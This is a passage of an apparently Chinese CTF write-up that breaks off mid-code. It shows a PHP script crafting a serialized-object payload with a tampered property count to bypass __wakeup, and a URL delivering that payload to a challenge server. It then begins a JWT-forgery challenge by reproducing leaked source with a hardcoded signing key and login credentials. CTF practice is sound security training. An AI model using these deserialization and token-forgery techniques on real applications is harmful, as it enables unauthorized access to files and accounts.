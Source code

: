 ```php
<?php 
class Small_white_rabbit{ 
    private $file = 'the_f1ag.php'; 
} 
$a = new Small_white_rabbit('the_f1ag.php');
$bb = serialize($a);
$bb = str_replace(':1:', ':2:', $bb);
echo $bb;
echo base64_encode($bb);
?>

TzoxODoiU21hbGxfd2hpdGVfcmFiYml0IjoyOntzOjI0OiIAU21hbGxfd2hpdGVfcmFiYml0AGZpbGUiO3M6MTI6InRoZV9mMWFnLnBocCI7fQ==
```
http://123.206.31.85:10024/index/index.php?var=TzoxODoiU21hbGxfd2hpdGVfcmFiYml0IjoyOntzOjI0OiIAU21hbGxfd2hpdGVfcmFiYml0AGZpbGUiO3M6MTI6InRoZV9mMWFnLnBocCI7fQ==


# web10  `jwt 伪造`
http://123.206.31.85:3032/L3yx.php
.swp
```php
<html>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<title>在线日记本</title>
<form action="" method="POST">
  <p>username: <input type="text" name="username" /></p>
  <p>password: <input type="password" name="password" /></p>
  <input type="submit" value="login" />
</form>
<!--hint:NNVTU23LGEZDG===-->
</html>

<?php
    error_reporting(0);
    require_once 'src/JWT.php';

    const KEY = 'L3yx----++++----';

    function loginkk()
    {
        $time = time();
        $token = [
          'iss'=>'L3yx',
          'iat'=>$time,
          'exp'=>$time+5,
          'account'=>'kk'
        ];
        $jwt = \Firebase\JWT\JWT::encode($token,KEY);
        setcookie("token",$jwt);
        header("location:user.php");
    }

    if(isset($_POST['username']) && isset($_POST['password']) && $_POST['username']!='' && $_POST['password']!='')
    {
        if($_POST['username']=='kk' && $_POST['password']=='kk123')
        {
            loginkk();
        }
        else
        {
```